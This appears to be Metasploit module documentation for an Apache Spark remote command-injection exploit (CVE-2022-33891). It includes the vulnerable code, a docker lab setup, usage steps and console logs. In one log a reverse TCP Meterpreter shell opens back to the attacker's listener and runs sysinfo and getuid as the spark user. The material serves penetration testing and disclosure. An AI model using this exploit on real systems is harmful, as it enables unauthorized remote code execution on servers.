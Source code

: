 ## Vulnerable Application

This module exploits a remote code execution vulnerability (CVE-2022-33891) of Apache Spark.
The Apache Spark UI offers the possibility to enable ACLs via the configuration option `spark.acls.enable`.
With an authentication filter, this checks whether a user has access permissions to view or modify the application.
The permission check is coded using a bash command shell and the unix id command that allows a malicious shell command injection.

Ironically the `spark.acls.enable` configuration setting is designed to improve the security access within the Spark application,
but unfortunately this configuration setting triggers the vulnerable code below.

```
private def getUnixGroups(username: String): Set[String] = {
    val cmdSeq = Seq("bash", "-c", "id -Gn " + username)
    // we need to get rid of the trailing "\n" from the result of command execution
    Utils.executeAndGetOutput(cmdSeq).stripLineEnd.split(" ").toSet
    Utils.executeAndGetOutput(idPath ::  "-Gn" :: username :: Nil).stripLineEnd.split(" ").toSet
  }
}
```

This will result in arbitrary shell command execution as the user `Spark`.

This affects Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1

Installing a vulnerable version of Apache Spark to test this vulnerability is quite easy.

To set the server up use the following docker-compose.yml file and follow the steps below:
```
version: '2'

services:
  spark:
    image: docker.io/bitnami/spark:3.1.1
    environment:
      - SPARK_MODE=master
      - SPARK_RPC_AUTHENTICATION_ENABLED=no
      - SPARK_RPC_ENCRYPTION_ENABLED=no
      - SPARK_LOCAL_STORAGE_ENCRYPTION_ENABLED=no
      - SPARK_SSL_ENABLED=no
    ports:
      - '8080:8080'
```

1. Create the docker-compose.yml in your preferred directory and run `docker-compose up`. Let the container spin up.
1. In a new terminal, enter `sudo docker exec -it spark_spark_1 /bin/bash`
1. In the container bash session, enter: `echo "spark.acls.enable true" >> conf/spark-defaults.conf`
1. cat the contents of spark-defaults.conf to make sure it looks good.
1. Exit the interactive bash shell and Ctrl-C your docker-compose process.
1. Once the containers have powered down gracefully, rerun `docker-compose up`

Once the server and application is up, it's vulnerable and you can access it on port 8080 for testing...

## Verification Steps

1. `use exploit/linux/http/apache_spark_rce_cve_2022_33891`
1. `set RHOSTS <TARGET HOSTS>`
1. `set LHOST <Address of Attacking Machine>`
1. `exploit`
1. You should get a shell or meterpreter as the `spark` user.

## Options

No specific options to be set.

## Scenarios

### Apache Spark version 3.1.1 on Linux 5.10.104-linuxkit with spark.acls.enable set to true

```
msf6 > use exploit/linux/http/apache_spark_rce_cve_2022_33891
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set rhosts 192.168.100.43
rhosts => 192.168.100.43
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.100.43   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the vulnerable instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.7    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.43:8080 can be exploited!
[*] Perform sleep test of 10 seconds...
[+] The target is vulnerable. Sleep was around 10 seconds [10.033867019]!
[*] Exploiting...
[*] Sending stage (40164 bytes) to 192.168.100.43
[-] Meterpreter session 3 is not valid and will be closed
[*] 192.168.100.43 - Meterpreter session 3 closed.
[*] Sending stage (40168 bytes) to 192.168.100.43
[*] Meterpreter session 4 opened (192.168.100.7:4444 -> 192.168.100.43:62618) at 2022-08-26 10:49:46 +0000

meterpreter > sysinfo
Computer     : 7a26a9fb7ce3
OS           : Linux 5.10.104-linuxkit #1 SMP Thu Mar 17 17:08:06 UTC 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: spark
```

### Apache Spark version 3.1.1 on Linux 5.10.104-linuxkit WITHOUT the spark.acls.enable option

Note: This version is vulnerable, however the `spark.acls.enable` option is not set, hence the vulnerable code will not be triggered.
Response on POST payload request will be 200 instead of 403.

```
msf6 > use exploit/linux/http/apache_spark_rce_cve_2022_33891
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set rhosts 192.168.100.43
rhosts => 192.168.100.43
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.100.43   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the vulnerable instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.7    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(inux/http/apache_spark_rce_cve_2022_33891) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.43:8080 can be exploited!
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. The 192.168.100.43:8080 did not respond a 403 response. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) >
```

## Limitations
The check to determine if the application is vulnerable is based on a 403 response and the execution of a randomized `sleep` command.
The exploit is a blind command injection, so there is nothing reflected back on the page during the command execution.
Timing the sleep command execution is therefore a pretty safe bet to check if the command injection is successful.

Credits goes to HuskyHacks that used this test in his [POC](https://github.com/HuskyHacks/cve-2022-33891) on GitHub.
